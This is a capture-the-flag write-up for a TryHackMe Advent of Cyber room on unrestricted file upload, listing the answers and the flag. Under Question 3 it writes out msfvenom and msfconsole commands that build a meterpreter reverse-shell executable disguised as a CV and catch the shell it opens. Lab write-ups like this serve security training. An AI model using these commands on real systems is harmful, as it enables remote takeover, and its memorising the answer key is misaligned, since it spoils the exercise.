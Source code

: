 # Advent of Cyber 4 - Day 15

Link: [Advent Of Cyber 4 on TryHackMe](https://tryhackme.com/room/adventofcyber4)

### Question 1

> What is the name given to file uploads that allow threat actors to upload any files that they want?

Answer: `Unrestricted`

### Question 2

> What is the title of the web application developed by Santa's freelancer?

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/2.png?raw=true)

Answer: `SantaSideKick2`

### Question 3

> What is the value of the flag stored in the HR Elf's Documents directory?

We start by using `msfvenom` to create a malicious executable: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$IP LPORT="4321" -f exe -o cv-maya.exe`

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/3.1.png?raw=true)

We then tell the shell to create a reverse shell handler, with automatic meterpreter elevation:

`sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST $IP; set LPORT '4231'; exploit"`

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/3.2.png?raw=true)

We then upload our "CV" to the platform:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/3.3.png?raw=true)

The "CV" gets executed, leading us to a meterpreter session:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/3.4.png?raw=true)

We situate ourselves and then navigate to the target directory to get the flag:

![](https://github.com/AtomicMaya/knowledge-base/blob/main/writeup_resources/aoc4/day15/3.5.png?raw=true)

Answer: `THM{Naughty.File.Uploads.Can.Get.You.RCE}`

### Question 4

> What defence technique can be implemented to ensure that specific file types can be uploaded?

Answer: `File Extension Validation`

### Question 5

> What defence technique can be used to make sure the threat actor cannot recover their file again by simply using the file name?

Answer: `File Renaming`

### Question 6

> What defence technique can be used to make sure malicious files that can hurt elves are not uploaded?

Answer: `Malware Scanning`